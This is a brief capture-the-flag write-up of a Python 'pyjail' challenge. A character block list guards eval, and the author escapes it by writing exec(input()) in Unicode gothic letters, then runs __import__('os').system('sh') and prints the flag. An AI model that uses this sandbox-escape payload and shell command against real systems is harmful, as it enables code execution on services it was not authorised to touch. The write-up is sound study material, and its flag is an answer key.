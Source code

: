 # 『Baby Pyjail』
> baby pyjail

> Start challenge from: https://ctfify.1pc.tf/challenge/misc_baby_pyjail

> [Zip File](https://tcp.1pc.tf/assets/c728938331c5495b03d78d3cf9cd71f039ff8fbe5812f2b96cc55ed91062e459/babypyjail_babypyjail-dist.zip)

Author: daffainfo

# 『Code Chall』
```
inp = input("Input pls")

if any(c in inp for c in "abcdefghijklmnopqrstuvwxyz0123456789_\"'."):
    print("Invalid input!")
else:
    print(eval(inp))
```

# 『Solve』

We're given this code chall. There are blacklist that we can't use like `_`, `'`, and `.`. Also, We can't use normal character (i mean lowercase ) to do some execute. So how to solve it? well simple.

I use [this](https://github.com/daffainfo/ctf-writeup/tree/main/2023/h4ckc0n%202023/yet%20another%20pyjail) payload to bypass the blacklist. It use `gothic font` to execute the code.

The payload: `𝔢𝔵𝔢𝔠(𝔦𝔫𝔭𝔲𝔱())`. then `__import__("os").system("sh")` and lastly `cat flag.txt`. here's the flag:

<img width="668" height="153" alt="image" src="https://github.com/user-attachments/assets/d797c058-4406-45c0-86c9-16cb772df3b8" />

# 『Explanation』

```
Flag: RAMADAN{well_ada_banyak_cara_buat_ngesolve_ni_soal}
```
